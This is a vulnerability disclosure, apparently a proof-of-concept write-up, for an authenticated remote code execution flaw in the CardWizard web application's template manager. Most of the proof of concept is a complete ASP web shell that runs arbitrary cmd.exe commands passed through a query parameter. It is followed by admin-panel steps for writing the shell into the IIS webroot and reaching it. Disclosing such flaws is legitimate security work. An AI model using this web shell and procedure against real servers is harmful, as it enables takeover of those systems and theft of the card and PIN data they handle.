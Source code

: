 ## Description

This vulnerability allows an attacker to abuse the "Output File Templates" functionality to write a malicious ASP file onto the target system instead of a standard text log file. By exploiting this flaw, the attacker can place and execute arbitrary code in the form of an ASP or ASPX file, resulting in remote code execution on the server.

## Vulnerability Location

- `https://<Host-Name>/#/Administration/TemplateManager`

## Proof of Concept

Login with any admin account and Go to `https://<Host>/#/Administration/TemplateManager` and Create a template with the following content:

```aspx
[file=C:\inetpub\wwwroot\CardWizard_<CLIENT>\shell.asp]
<%
    ' Check if a command is provided in the query string     Dim command, output
    command = Request.QueryString("cmd")
    If command <> "" Then
        ' Create a shell object to execute the command
        Dim shell
        Set shell = CreateObject("WScript.Shell")         
        ' Execute the command and capture output
        Dim exec
        Set exec = shell.Exec("cmd.exe /c " & command)
        ' Get the command's standard output         output = ""
        Do Until exec.StdOut.AtEndOfStream
            output = output & exec.StdOut.ReadLine() & vbCrLf
        Loop
        ' Display the output
        Response.Write "<pre>" & Server.HTMLEncode(output) & "</pre>"         
        ' Clean up
        Set exec = Nothing
        Set shell = Nothing     Else
        Response.Write "<h2>Please provide a command using the 'cmd' query parameter.</h2>"
    End If
%>
<!DOCTYPE html>
<html>
<head>
    <title>Command Execution in ASP</title>
</head>
<body>
    <h1>Execute Command</h1>
    <form method="get">
        Command: <input type="text" name="cmd" />
        <input type="submit" value="Execute" />
    </form>
</body>
</html>
[fileoff]
```

![](./Pasted%20image%2020250809014814.png)

Go to `https://<Host-Name>/#/Administration/CardFormatLinks` and assign the template to a card format:

![](./Pasted%20image%2020250809014825.png)

Go to `https://<Host-Name>/#/CardActions/PrintSamplePINMailer` and print the card format PIN Mailer to write the file on the disk:

![](./Pasted%20image%2020250809015003.png)

Now you can access the web shell at `https://<Host-Name>/shell.asp` and verify code execution on the server:

![](./Pasted%20image%2020250809023803.png)

